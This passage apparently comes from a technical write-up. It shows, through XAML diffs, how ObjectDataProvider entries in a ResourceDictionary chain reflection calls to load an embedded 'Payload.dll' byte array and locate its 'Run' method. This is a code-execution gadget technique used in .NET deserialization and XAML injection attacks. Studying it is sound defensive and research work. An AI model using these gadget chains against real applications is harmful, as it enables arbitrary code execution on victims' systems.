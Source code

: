 ```diff
```

To call the `GetType` method on the `assembly` object instance, we can also use `ObjectDataProvider`:

```diff
diff --git a/2.xaml b/3.xaml
index edb5802..e038bf4 100644
--- a/2.xaml
+++ b/3.xaml
@@ -1,6 +1,7 @@
 <ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                     xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
                     xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib"
+                    xmlns:s="clr-namespace:System;assembly=mscorlib"
 >
     <!-- byte[] data = new byte[] { /*... Payload.dll bytes ...*/ }; -->
     <x:Array x:Key="data" Type="{x:Type x:Byte}">
@@ -15,4 +16,11 @@
           <StaticResource ResourceKey="data"></StaticResource>
         </ObjectDataProvider.MethodParameters>
     </ObjectDataProvider>
+
+    <!-- Type type = assembly.GetType("MyType"); -->
+    <ObjectDataProvider x:Key="type" ObjectInstance="{StaticResource assembly}" MethodName="GetType">
+        <ObjectDataProvider.MethodParameters>
+            <s:String>Payload</s:String>
+        </ObjectDataProvider.MethodParameters>
+    </ObjectDataProvider>
 </ResourceDictionary>
```

The same goes for calling the `GetMethod` method on the `type` object instance. We just need to calculate the value for `BindingFlags.Static | BindingFlags.Public`:

```diff
diff --git a/3.xaml b/4.xaml
index e038bf4..157d2da 100644
--- a/3.xaml
+++ b/4.xaml
@@ -23,4 +23,12 @@
             <s:String>Payload</s:String>
         </ObjectDataProvider.MethodParameters>
     </ObjectDataProvider>
+
+    <!-- MethodInfo method = type.GetMethod("Run", BindingFlags.Static | BindingFlags.Public); -->
+    <ObjectDataProvider x:Key="method" ObjectInstance="{StaticResource type}" MethodName="GetMethod">
+        <ObjectDataProvider.MethodParameters>
+            <s:String>Run</s:String>
+            <r:BindingFlags>24</r:BindingFlags>
+        </ObjectDataProvider.MethodParameters>
+    </ObjectDataProvider>
 </ResourceDictionary>
```
